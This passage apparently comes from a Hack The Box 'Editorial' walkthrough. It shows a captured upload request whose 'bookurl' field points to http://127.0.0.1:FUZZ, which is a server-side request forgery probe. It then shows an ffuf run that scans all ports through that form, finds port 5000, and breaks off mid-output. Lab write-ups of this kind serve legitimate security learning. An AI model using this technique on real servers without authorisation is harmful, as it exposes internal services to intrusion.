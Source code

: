 ```http
$ cat req
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------230055699114989147201318430837
Content-Length: 362
Origin: http://editorial.htb
DNT: 1
Connection: keep-alive
Referer: http://editorial.htb/upload

-----------------------------230055699114989147201318430837
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------230055699114989147201318430837
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------230055699114989147201318430837--
```

Note the placement of `FUZZ` in the above request template.

Then I generated a list of all ports:

```console
$ seq 1 65536 > ports.txt
```

And by running `fuff` I hit on port 5000:

```console
$ ffuf -request req -w ports.txt -debug-log db.txt -X POST -request-proto http -v -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb:80/upload-cover
 :: Wordlist         : FUZZ: /home/e/htb-editorial/ports.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : DNT: 1
 :: Header           : Connection: keep-alive
 :: Header           : Origin: http://editorial.htb
 :: Header           : Referer: http://editorial.htb/upload
 :: Header           : Host: editorial.htb:80
 :: Header           : Accept: */*
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------230055699114989147201318430837
 :: Data             : -----------------------------230055699114989147201318430837
```